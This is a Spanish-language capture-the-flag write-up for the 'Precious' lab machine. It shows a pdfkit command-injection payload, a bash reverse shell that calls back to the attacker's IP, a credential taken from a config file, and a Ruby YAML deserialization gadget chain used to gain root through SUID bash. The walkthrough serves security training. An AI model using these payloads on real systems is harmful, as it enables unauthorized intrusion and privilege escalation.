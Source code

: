 # PreciousWriteup

Comenzamos haciendo un escaneo en nmap

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110171820.png)

Vemos abierto dos puertos el 22 y el 80

~~~
sudo nmap -v -sS -oX vulnerabilidades.xml --stylesheet="https://svn.nmap.org/nmap/docs/nmap.xsl" --script=vuln 10.10.11.189
~~~

Entramos a la página web y vemos que no carga agregamos a /etc/hosts la ip seguida de precious.htb

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110172201.png)

Vemos esta página, para poder copiar otras páginas en PDFs, creamos un server con python -m http.server 80

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110172259.png)

Ponemos nuestro link para que genere el pdf

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110172409.png)

Vemos los metadatos y dice generated by pdfkit v0.8.6

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110172531.png)

Buscamos vulnerabilidades para pdfkit

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110172612.png)

Vemos que permite la ejecucion remota de comandos

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110172642.png)

Lo calamos

~~~
http://example.com/?name=#{'%20`sleep 5`'}
~~~

Vemos que si tarda 5 segs en conectar

Calamos generar un reverse shell

~~~
http://10.10.14.136/?name=#{'%20`bash -c "/bin/bash -i >& /dev/tcp/10.10.14.136/9123 0>&1"`'}
~~~

Damos el -c para que se ejecute bien 

~~~
-c        If the -c option is present, then commands are read from the first non-option argument command_string.  If there are arguments after the command_string, the first argument is assigned to $0 and any remaining argu‐
                 ments are assigned to the positional parameters.  The assignment to $0 sets the name of the shell, which is used in warning and error messages.
       -i        If the -i option is present, the shell is interactive.
~~~

Estamos en /var/www/pdfapp, vamos a home

Damos un ls y no hay nada, damos ls -laRh, para ver carpetas y subcarpetas ocultas

Vemos varias

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110174817.png)

Entramos a ./.bundle

Vemos config y hay como una clave de ssh

~~~
henry:Q3c1AqGHtoI0aXAYFH
~~~

Entramos y ganamos la primera flag

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110175411.png)

Ahora damos sudo -l para ver variables de entorno

![imagen]()

~~~
-l, --list  If no command is specified, list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.  A longer list format is used if this option is specified
                 multiple times and the security policy supports a verbose output format.

                 If a command is specified and is permitted by the security policy, the fully-qualified path to the command is displayed along with any command line arguments.  If a command is specified but not allowed by the pol‐
                 icy, sudo will exit with a status value of 1
~~~

Nos vamos a opt

A ver el update_dependencies.rb

Vemos que abre un archivo dependencies.yml y no especifica el camino

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110175411.png)

Y vemos que tiene permisos de root

Enocntramos que se puede deserializar, con ruby 


~~~
---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
~~~

En git set podemos ejecutar el comando

Ponemos chmod +s /bin/bash

Y hacemos bash -p

Y obtenemos la flag



